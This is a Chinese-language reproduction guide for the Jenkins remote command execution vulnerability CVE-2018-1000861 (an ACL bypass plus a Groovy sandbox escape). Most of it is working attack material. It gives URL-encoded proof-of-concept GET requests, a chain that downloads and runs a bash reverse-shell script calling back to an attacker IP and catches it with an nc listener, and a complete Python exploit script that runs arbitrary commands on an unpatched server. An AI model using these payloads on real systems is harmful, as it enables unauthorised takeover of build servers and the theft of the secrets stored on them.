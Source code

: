（CVE-2018-1000861）Jenkins 远程命令执行漏洞
============================================

一、漏洞简介
------------

Jenkins使用Stapler框架开发，其允许用户通过URL
PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

二、漏洞影响
------------

Jenkins Version \<= 2.56

Jenkins LTS Version \<= 2.46.1

三、复现过程
------------

#### 漏洞复现:

##### 1.此漏洞是没有回显的,所以我们这里直接反弹shell:

此漏洞的POC(直接GET请求即可):

    GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}}

##### 2.我们这里采取下载文件的方法来反弹shell

\(1\) 先在我们的服务器上防止一个文本,内容为:

    bash -i >& /dev/tcp/172.26.1.156/9999 0>&1

\(2\) 然后我们替换POC中执行命令的部分为下载文件的命令:

    curl -o /tmp/1.sh http://172.26.1.156:8080/1.txt

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22curl+-o+/tmp/1.sh+http://172.26.1.156:8080/1.txt%22.execute()}}

\(3\) 给予下载的脚本执行权限:

    chmod 777 /tmp/1.sh

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22chmod+777+/tmp/1.sh%22.execute()}}

\(4\) 然后在我们接收shell的机器上监听之前写的端口:

    nc -lvvp 9999

\(5\) 直接bash执行我们下载的脚本

    bash /tmp/1.sh

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash+/tmp/1.sh%22.execute()}}

\(6\) 回到我们监听端口的机器:

![U1fa800f6a04448f38d05166dcce9d04cJ.jpg](./.resource/(CVE-2018-1000861)Jenkins远程命令执行漏洞/media/rId27.jpg)

可以看到已经成功获取到了shell!

### poc

**useage**

    $ curl -s -I http://jenkins/| grep X-Jenkins
    X-Jenkins: 2.137
    X-Jenkins-Session: 20f72c2e
    X-Jenkins-CLI-Port: 50000
    X-Jenkins-CLI2-Port: 50000

    $ python exp.py http://jenkins/ 'curl orange.tw'
    [*] ANONYMOUS_READ disable!
    [*] Bypass with CVE-2018-1000861!
    [*] Exploit success!(it should be :P)

![Uadc7abd83e45466dbed2f51492676c13j.jpg](./.resource/(CVE-2018-1000861)Jenkins远程命令执行漏洞/media/rId29.jpg)

    #!/usr/bin/python
    # coding: UTF-8
    # author: Orange Tsai(@orange_8361)
    # 

    import sys
    import requests
    from enum import Enum

    # remove bad SSL warnings
    try:
        requests.packages.urllib3.disable_warnings()
    except:
        pass


    endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

    class mode(Enum):
        ACL_PATCHED = 0
        NOT_JENKINS = 1
        READ_ENABLE = 2
        READ_BYPASS = 3
        ENTRY_NOTFOUND = 999

    def usage():
        print '''
      Usage:
        python exp.py <url> <cmd>
        '''

    def _log(msg, fail=False):
        nb = '[*]'
        if fail:
            nb = '[-]'
        print '%s %s' % (nb, msg)

    def _get(url, params=None):
        r = requests.get(url, verify=False, params=params)
        return r.status_code, r.content

    def _add_bypass(url):
        return url + 'securityRealm/user/admin/'

    def check(url):
        flag, accessible = mode.ACL_PATCHED, False

        # check ANONYMOUS_READ
        status, content = _get(url)
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_ENABLE, True
            _log('ANONYMOUS_READ enable!')
        elif status == 403:
            _log('ANONYMOUS_READ disable!')

            # check ACL bypass, CVE-2018-1000861
            status, content = _get(_add_bypass(url))
            if status == 200 and 'adjuncts' in content:
                flag, accessible = mode.READ_BYPASS, True
        else:
            flag = mode.NOT_JENKINS

        # check entry point, CVE-2019-1003005
        if accessible:
            if flag is mode.READ_BYPASS:
                url = _add_bypass(url)
            status, content = _get(url + endpoint)

            if status == 404:
                flag = mode.ENTRY_NOTFOUND

        return flag

    def exploit(url, cmd):
        payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
        params = {
            'sandbox': True, 
            'value': payload
        }

        status, content = _get(url + endpoint, params)
        if status == 200:
            _log('Exploit success!(it should be :P)')
        elif status == 405:
            _log('It seems Jenkins has patched the RCE gadget :(')
        else:
            _log('Exploit fail with HTTP status [%d]' % status, fail=True)
            if 'stack trace' in content:
                for _ in content.splitlines():
                    if _.startswith('Caused:'):
                        _log(_, fail=True)

    if __name__ == '__main__':
        if len(sys.argv) != 3:
            usage()
            exit()

        url = sys.argv[1].rstrip('/') + '/'
        cmd = sys.argv[2]

        flag = check(url)
        if flag is mode.ACL_PATCHED:
            _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
        elif flag is mode.NOT_JENKINS:
            _log('Is this Jenkins?', fail=True)
        elif flag is mode.READ_ENABLE:
            exploit(url, cmd)
        elif flag is mode.READ_BYPASS:
            _log('Bypass with CVE-2018-1000861!')
            exploit(_add_bypass(url), cmd)
        else:
            _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
